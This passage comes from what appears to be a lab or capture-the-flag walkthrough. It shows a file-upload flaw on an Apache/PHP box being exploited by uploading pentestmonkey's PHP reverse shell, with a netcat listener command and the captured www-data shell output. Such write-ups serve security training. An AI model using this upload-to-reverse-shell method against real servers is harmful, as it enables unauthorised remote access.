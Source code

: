 The endpoint for the photo is `studentphoto/duck.jpeg`. Let's try to go to that endpoint w/ the browser:

![](../md-images/academy-5.png)

The fact that we can see our duck in the browser means _the webserver is executing the file_, so we know if we upload some code _it will be executed_.

### Reverse Shell

Knowing that this is an Apache server, we can assume that PHP is running the backend. Additionally, we can see that php files are being referenced in the URLs.

PHP _executes on the server_, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/netcat.md) is listening on the port.

```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
